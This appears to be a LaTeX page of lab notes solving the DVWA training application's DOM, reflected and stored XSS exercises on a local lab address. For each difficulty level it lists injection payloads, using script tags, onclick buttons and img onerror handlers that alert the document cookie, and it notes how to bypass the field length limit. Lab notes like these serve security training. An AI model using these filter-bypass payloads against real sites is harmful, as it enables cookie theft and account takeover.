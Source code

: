 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}


\item DOM XSS:
\begin{example} \begin{itemize}
    \item easy, url = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{<script>alert(document.cookie);</script>}
    \item medium, url = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{</select><input type="button" value="attack" onclick="alert(document.cookie);"/>}
    \item hard, url (1) = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{English\&</select><input type="button" value="x" onclick="alert(document.cookie);"/>}
    \item hard, url (2) = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{English\&</select><script>alert(document.cookie);</script>}
\end{itemize} \end{example}


\item Reflected XSS:
\begin{example} \begin{itemize}
    \item easy, input = \texttt{<script>alert(document.cookie);</script>}
    \item medium, input = \texttt{<input type="button" value="x" onclick="alert(document.cookie)"/>}
    \item hard, input = \texttt{<input type="button" value="x" onclick="alert(document.cookie)"/>}
    \item \textcolor{red}{\textbf{Input cool}}:
    \begin{example}
        \texttt{<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>}
    \end{example}
\end{itemize} \end{example}


\item Stored XSS:
\begin{example} \begin{itemize}
    \item easy, message = \texttt{<script>alert(document.cookie);</script>}
    \item medium, name = \texttt{<img src="greg" onerror=alert(document.cookie);>}
    \item hard, name = \texttt{<img src="greg" onerror=alert(document.cookie);>}
\end{itemize} \end{example}
\textbf{Remarque}: pour pouvoir mettre plus de caractères dans le nom, il faut éditer le code html.



\end{itemize}
\end{document}
